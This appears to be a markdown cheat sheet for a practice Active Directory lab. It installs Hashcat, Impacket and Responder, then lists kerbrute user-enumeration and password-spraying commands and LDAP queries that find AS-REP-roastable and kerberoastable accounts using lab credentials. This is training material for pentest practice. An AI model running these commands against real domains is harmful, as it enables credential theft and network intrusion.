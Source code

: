 #### Hashcat
```bash
apt update
apt install hashcat
```

#### Impacket
```bash
apt update
apt install pipx
pipx ensurepath
python3 -m pipx install impacket
reboot
```
#### LDAP Utilities
```bash
apt update
apt install ldap-utils
Responder
git clone https://github.com/lgandx/Responder.git
cd Responder
pip install -r requirements.txt
```

### Attacks

#### User Enumeration
```bash
./kerbrute userenum -d polaris.local users.txt --dc 192.168.122.10
```

#### Password Spraying
```bash
./kerbrute passwordspray -d polaris.local valid_users.txt --dc 192.168.122.10 Password123
```

#### LDAP Queries
1. Query to obtain information on all users:
```bash
ldapsearch -H ldap://192.168.122.10 -D 'jesse.pinkman@polaris.local' -w Wang0Tang0! -b 'DC=polaris,DC=local' '(&(objectCategory=person)(objectClass=user))'
```

2. Query list all asrep-roastable users:
```bash
ldapsearch -H ldap://192.168.122.10 -D 'jesse.pinkman@polaris.local' -w Wang0Tang0! -b 'DC=polaris,DC=local' '(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
```

3. Query to list all kerberoastable users:
```bash
ldapsearch -H ldap://192.168.122.10 -D 'jesse.pinkman@polaris.local' -w Wang0Tang0! -b
'DC=polaris,DC=local'
'(&(objectClass=user)(servicePrincipalName=*)(!(cn=krbtgt))(!(userAccountControl:1
.2.840.113556.1.4.803:=2)))'
```

